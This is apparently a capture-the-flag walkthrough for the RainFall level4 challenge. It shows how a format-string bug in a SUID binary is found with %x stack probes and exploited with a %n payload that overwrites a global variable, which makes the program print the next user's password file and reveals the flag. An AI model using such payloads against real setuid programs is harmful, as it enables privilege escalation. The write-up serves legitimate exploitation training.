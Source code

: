# Level 4 Walkthrough

## Who am I?

```bash
level4@RainFall:~$ id
uid=2025(level4) gid=2025(level4) groups=2025(level4),100(users)
```

## Where am I?

```bash
level4@RainFall:~$ ll
total 17
-rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4*
```

We are in possession of a SUID binary owned by `level5`. Our objective is to exploit this binary to execute a command as `level5` and retrieve the contents of the `.pass` file.

---

## Program Behavior

Running the binary:

```bash
level4@RainFall:~$ ./level4
hello
hello
```

No crash, even when injecting long strings:

```bash
level4@RainFall:~$ python -c "print('A'*200)" | ./level4
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

This suggests the program uses `fgets()`, which safely limits input size.

---

## Decompiled Structure (via Ghidra)

```c
// main.c
void main(void) {
    n();
    return;
}

// n.c
void n(void) {
    char buffer[520];
    fgets(buffer, 0x200, stdin);
    p(buffer);
    if (m == 0x1025544) {
        system("/bin/cat /home/user/level5/.pass");
    }
    return;
}

// p.c
void p(char *param) {
    printf(param);
    return;
}
```

The structure is very similar to level3. The main difference is that `printf()` is now called via an intermediate function `p(char *)` instead of directly in the main function.

---

## Format String Vulnerability

Because `printf(param)` is called with user-controlled input and without a format string, it introduces a **format string vulnerability**.

We can attempt to inspect the stack layout with:

```bash
python -c 'print "AAAA %x %x %x %x %x %x %x %x %x %x"' | ./level4
AAAA b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0
```

No sign of `0x41414141` (`AAAA`) appears, so we continue probing:

```bash
python -c 'print "AAAA" + " %x" * 15' | ./level4
AAAA b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```

We find `0x41414141` ("AAAA") at the **12th** stack position. This is exactly the same approach used in level3, where the injected marker allowed us to find the correct offset to use in our `%n` format string attack.

---

## Exploitation Strategy

### Step 1: Find offset on the stack

We inject 10 %x to see where our input lands:

```bash
python -c 'print "AAAA %x %x %x %x %x %x %x %x %x %x"' | ./level4
```

No sign of `41414141` yet. We continue:

```bash
python -c 'print "AAAA" + " %x" * 15' | ./level4
```

We observe `41414141` (AAAA) at the **12th** position on the stack. Therefore, we will use `%12$n` to write to the address placed as the 12th argument.

### Step 2: Inject address of m on the stack

From disassembly, we see:

```asm
0x0804848d <+54>:    mov    0x8049810,%eax
0x08048492 <+59>:    cmp    $0x1025544,%eax
```

We confirm that the value compared is stored at memory address `0x08049810`, and the target value is `0x1025544` (16930116 in decimal).

We now test placing this address directly in our input to observe its position:

```bash
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08 %x %x %x %x %x %x %x %x %x %x %x %x"' | ./lev
el4
 b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 8049810
```

We observe that `0x08049810` appears at the **12th** position on the stack. As in level3, we must format our payload accordingly, using `%12$n` to target the correct argument.

### Step 3: Craft final payload

To exploit the vulnerability, we needed to:

* Identify the address to overwrite: `0x08049810`, found from disassembly.
* Determine the value to write: `0x1025544` (16930116 in decimal) to satisfy the condition: `if (m == 0x1025544)`.
* Discover that our input appears at the 12th position on the stack, using `%x` probes.
* Confirm that the user input is passed to `printf()` without format validation.

To write the desired value using `%n`, we must ensure that exactly `16930116` characters are printed before reaching `%12$n`. This is accomplished using `%16930112d`, as the first 4 bytes (the address) are already printed.

To understand `%n`, recall this example:

```c
int written = 0;
printf("Hello world!%n", &written);
```

After executing, `written == 12` because 12 characters were printed.

### Step 4: Build and launch the payload

```bash
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' > /tmp/exploit
level4@RainFall:~$ cat /tmp/exploit | ./level4
            -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

As seen above, the program directly outputs the contents of the `.pass` file. This is because, upon successful comparison, the function `n()` executes the following instruction:

```c
system("/bin/cat /home/user/level5/.pass");
```

There is no need to maintain input open as in level3, the command is self-contained and prints the result immediately.

Now use the retrieved flag to switch to the next user:

```bash
level4@RainFall:~$ su level5
Password:
```

Once logged in, we confirm access:

```bash
level5@RainFall:~$ id
uid=2026(level5) gid=2026(level5) groups=2026(level5)
```

Success.

---

## Files in this repository

* `flag.txt`: file containing the retrieved flag
* `asm_analysis.md`: GDB analysis of the binary
* `source/`: contains `ghidra/` (raw Ghidra decompilation) and `clean/` (cleaned C, faithful to binary)
